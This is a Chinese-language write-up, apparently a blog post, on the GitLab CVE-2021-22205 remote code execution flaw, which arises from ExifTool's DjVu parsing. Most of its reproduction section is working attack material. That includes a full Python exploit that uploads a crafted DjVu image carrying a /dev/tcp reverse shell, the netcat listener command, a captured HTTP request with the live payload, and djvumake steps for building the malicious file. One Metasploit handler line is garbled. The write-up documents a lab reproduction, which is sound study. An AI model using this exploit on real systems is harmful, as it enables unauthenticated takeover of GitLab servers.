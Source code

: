 ```yaml
---
title: GitLab漏洞-CVE-2021-22205
date: 2024-03-11 00:46 +0800
categories: [web,框架漏洞] 
tags: [cms,GitLab,CVE]
img_path: /img/web/
---
```

## 0x00 漏洞简介

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

**漏洞影响版本：**

> 11.9 <= Gitlab CE/EE < 13.8.8
> 
> 13.9 <= Gitlab CE/EE < 13.9.6
> 
> 13.10 <= Gitlab CE/EE < 13.10.3
{: .prompt-info}

#### 1、gitlab介绍

GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

![截图](53f251f94670a4aec3de59c5c0d2912f.png)

可以看到在gitlab的组成中包含的各种组件，可以通过两个关键入口访问，分别是HTTP/HTTPS(TCP 80,443)和SSH(TCP 22)，请求通过nginx转发到Workhorse，然后Workhorse和Puma进行交互，这里我们着重介绍下通过Web访问的组件GitLab Workhorse。

> Puma 是一个用于 Ruby 应用程序的简单、快速、多线程和高度并发的 HTTP 1.1 服务器，用于提供GitLab网页和API。从 GitLab 13.0 开始，Puma成为了默认的Web服务器，替代了之前的Unicorn。而在GitLab 14.0中，Unicorn 从Linux 包中删除，只有Puma可用。

而漏洞的成因就在于`Gitlab Workhorse`处理文件的过程中。

#### 2、漏洞成因

当我们利用接口`/uploads/user`上传图像文件时，`GitLab Workhorse`会将扩展名为`jpg、jpeg、tiff`文件传递给`ExifTool`。而`ExifTool`作用在于删除其中不合法的标签。而`ExifTool`在解析文件的时候会忽略文件的扩展名，尝试根据文件的内容来确定文件类型，其中支持的类型有DjVu。

> DjVu是由AT&T实验室自1996年起开发的一种图像压缩技术，已发展成为标准的图像文档格式之一;
> 
> ExifTool是一个独立于平台的Perl库，一款能用作多功能图片信息查看工具。可以解析出照片的exif信息，可以编辑修改exif信息，用户能够轻松地进行查看图像文件的EXIF信息，完美支持exif信息的导出。
{: .prompt-info}

关键在于ExifTool在解析DjVu注释的ParseAnt函数中存在漏洞，所以我们就可以通过构造DjVu文件并插入恶意注释内容将其改为jpg后缀上传，因为gitlab并未在这个过程中验证文件内容是否是允许的格式，最后让ExifTool以DjVu形式来解析文件，造成了ExifTool代码执行漏洞。

以上的内容参考自： [AirSky](https://mp.weixin.qq.com/s/Y4mGVhbc3agp1adnUs1GmA)

## 0x01 漏洞复现

我是利用vulfocus搭建环境进行复现。

这里,我们可以直接利用网上开源的一些脚本:

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
from bs4 import BeautifulSoup

class Exploit():
    __info__ = {
        'name': 'CVE-2021-22205',
        'desription': 'gitlab 未授权远程命令执行',
        'references': ['https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205'],
        'devices': ['gitlab',
                    '11.9=< version <13.8.8',
                    '13.9=< version <13.9.6',
                    '13.10=< version <13.10.3'
        ],
    }


    target = "192.168.31.38"
    port = 43536
    reverseShell = "echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"

    def exploit(self):
        proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
        session = requests.Session()
        session.proxies = proxies
        requests.packages.urllib3.disable_warnings()
        url = "http://{}:{}".format(self.target, self.port)
        try:
            r = session.get(url.strip("/") + "/users/sign_in", verify=False)
            soup = BeautifulSoup(r.text, features="lxml")
            token = soup.findAll('meta')[16].get("content")
            data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{" + self.reverseShell + "} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
            headers = {
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
                "Connection": "close",
                "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
                "X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
            flag = 'Failed to process image'
            req = session.post(url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
            print(session.body)
            x = req.text
            if flag in x:
                return "success!!!"
            else:
                print("[-] Vuln Check Failed... ...")
                return 'failed'
        except Exception as error:
            print(error.with_traceback())
            print("[-] Vuln Check Failed... ...")
            return 'failed'

    def run(self):
        res = self.exploit()
        return res

if __name__ == '__main__':
    exploit = Exploit()
    '''
    在GitLab CE/EE中发现一个问题，从11.9开始影响所有版本。
    GitLab没有正确地验证传递给文件解析器的图像文件，导致远程命令执行
    此脚本利用此漏洞进行反弹shell, 测试前请配置好下面的 listenIp 和 listenPort 参数
    '''
    exploit.target= "192.168.31.38" # 目标服务器
    exploit.port = 43536      # 目标端口
    listenIp = "192.168.31.38" # 本地监听ip
    listenPort = "6666"   # 本地监听端口
    exploit.reverseShell = exploit.reverseShell.format(listenIp,listenPort)
    result = exploit.run()
    print(result)

```
{: file='1.py'}

这里,我们只需要修改一下利用地址和端口 ；还有本地监听的地址和端口。

然后，我们需要利用nc监听本地端口：

```bash
nc.exe -lvnp 6666
```

然后启动脚本：

```bash
python 1.py
```

xxxxxxxxxx5 1use exploit/multi/handler2set payload windows/meterpreter/bind_tcp3set rhost 192.168.11.1294set lport 33335runbash

## 0x02 脚本代码分析

这里，我截下流量包的图片，以便我们可以看到脚本代码中发送的流量情况：

```sass
POST /uploads/user HTTP/1.1
Host: 192.168.31.38:43536
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5
X-CSRF-Token: BYGxDBZjz3NG0PKDN1lK1fMagmzwzsPNyod+zPUBYlYL9rGDbXJDAS6JJCBMGxQNKD/PIpool1nVPBv159zTew==
Cookie: _gitlab_session=addf2bf61cd6e800858774f8cb8ea0a7; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkltUTVOekk0TVRZMUxUTXdObU10TkRkaVpDMWlOemN6TFRSaE5XWmxNREpqTXpWbU5DST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--70dccc24ff47022870ee986c26295ba243fc285e
Content-Length: 971


------WebKitFormBoundaryIMv3mxRg59TkFSX5
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

AT&TFORM  疍JVMDIRM   .?    F   ?蘅?!葢N? 亿堣k鍰,q領觧暯⒚"?FORM   ^DJVUINFO   
   d  INCL   shared_anno.iff BG44    J  婃岜7?*? BG44   鶡BG44   
FORM   DJVIANTa  P(metadata
	(Copyright "\
" . qx{echo '/bin/bash -i >& /dev/tcp/192.168.31.38/6666 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )                                                                                                                                                                                                                                                                                                                                                                                                                                     

------WebKitFormBoundaryIMv3mxRg59TkFSX5--
```
{: file='数据包'}

![截图](8f00070c63b3c49d089da52c0b7ed354.png)

然后，从图中可以看到，这里我们利用的上传接口确实是`/uploads/user`，除此之外，代码本身还通过获取`X-CSRF-Token`和未登录`Session`来进行未授权访问。

而上传的数据包内容，则是一个DjVu文件的内容格式，其中还包含了我们注释的恶意代码内容，以便让`ExifTool`完成最终的代码执行。

当然，这里我们也已直接使用`DjVu`来创建我们的恶意代码。用法：（在kali中）

```shell
sudo apt-get install -y djvulibre-bin
```

准备好恶意文本：

```sass
(metadata
	(Copyright "\
"  qx{echo '/bin/bash -i >& /dev/tcp/{}/{} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh} . \
" b ") )
```{: file='cve.txt'}

制作`DjVu`图片格式：

```shell
djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg
```

最终jpg里的内容为：
![截图](20240311003341298.png)

